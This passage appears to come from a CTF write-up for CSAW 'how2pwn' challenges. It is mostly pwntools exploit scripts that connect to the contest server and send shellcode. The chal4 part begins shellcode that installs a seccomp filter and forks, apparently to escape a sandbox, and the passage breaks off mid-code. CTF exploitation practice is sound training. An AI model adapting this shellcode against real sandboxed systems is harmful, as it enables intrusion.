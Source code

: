 ```python
mov eax,0x4
mov ebx,0x1
mov edx,0x1c00
int 0x80
'''
# input()
shellcode = asm(shellcode)
print("[+] len of shellcode: "+str(len(shellcode)))

p.send(shellcode)
# while(1):
#     flag = p.read()
#     print(flag)
#     if b"Segmentation fault\n" in flag:
#         break
p.interactive()
p.close()
```

## chal4
```py
from pwn import *
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
debug = 0
if debug:
    p = process("./chal4")
else:
    p = remote("how2pwn.chal.csaw.io",60004)
    # p = remote("0.0.0.0",60004)
with open("./ticket4",'r') as f:
    ticket = f.read().strip()
p.send(ticket)

context.arch = 'amd64'
shellcode = f'''
    mov esp,0xcafe800
    mov rsi,0x8
    mov rbx,0x7fff000000000006
    push rbx
    mov rbx,0x7fc0000000000006
    push rbx
    mov rbx,0xc000003e00010015
    push rbx
    mov rbx, 0x400000020
    push rbx
    mov rbx,rsp
    push rbx
    xor rbx,rbx
    mov bl,0x4
    push rbx
    mov rdx,rsp
    mov rax,0x13d
    mov rdi,1
    syscall
    mov r8,rax
    mov al,0x39
    syscall
    cmp rax,0
    je child_process
parent_process:
    xor rax,rax
clean_req_and_resp:
```

[1]: https://github.com/osirislab
